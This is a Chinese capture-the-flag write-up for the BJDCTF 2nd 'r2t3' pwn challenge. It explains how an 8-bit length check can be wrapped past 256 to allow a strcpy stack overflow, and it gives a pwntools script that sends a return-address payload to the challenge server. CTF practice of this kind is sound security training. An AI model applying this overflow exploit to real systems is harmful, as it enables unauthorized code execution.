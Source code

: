 ## 0x0b [BJDCTF 2nd]r2t3
### ans 
```c++
  char buf; // [esp+0h] [ebp-408h]

  my_init();
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("[+]Ret2text3.0?");
  puts("[+]Please input your name:");
  read(0, &buf, 0x400u);
  name_check(&buf);
  puts("Welcome ,u win!");
  return 0;
```
没有溢出。。到name_check里面看看。

```c++
  char dest; // [esp+7h] [ebp-11h]
  unsigned __int8 v3; // [esp+Fh] [ebp-9h]

  v3 = strlen(s);
  if ( v3 <= 3u || v3 > 8u )
  {
    puts("Oops,u name is too long!");
    exit(-1);
  }
  printf("Hello,My dear %s", s);
  return strcpy(&dest, s);
```
必须绕过验证，unsigned int 有溢出的机会。

```c++
.text:080485E1                 call    _strlen
.text:080485E6                 add     esp, 10h
.text:080485E9                 mov     [ebp+var_9], al
.text:080485EC                 cmp     [ebp+var_9], 3
.text:080485F0                 jbe     short loc_804861F
.text:080485F2                 cmp     [ebp+var_9], 8
.text:080485F6                 ja      short loc_804861F
.text:080485F8                 sub     esp, 8
.text:080485FB                 push    [ebp+s]
.text:080485FE                 push    offset format   ; "Hello,My dear %s"
.text:08048603                 call    _printf
```
看到 080485E9 处使用 al 寄存器，可以进行4位的溢出。  
输入范围是 ( 3+256*i , 8+256*i ]   
我们选择 ( 0x103 , 0x108 ]

### exp 
```python
from pwn import *
context.log_level = "debug"
io = process('./r2t3')
io = remote('node3.buuoj.cn',25630)

payload = 'a'*0x15 + p32(0x0804858B) 
payload = payload.ljust(0x105,'b') 
io.recvuntil("[+]Please input your name:")
io.send(payload)
io.interactive()

```
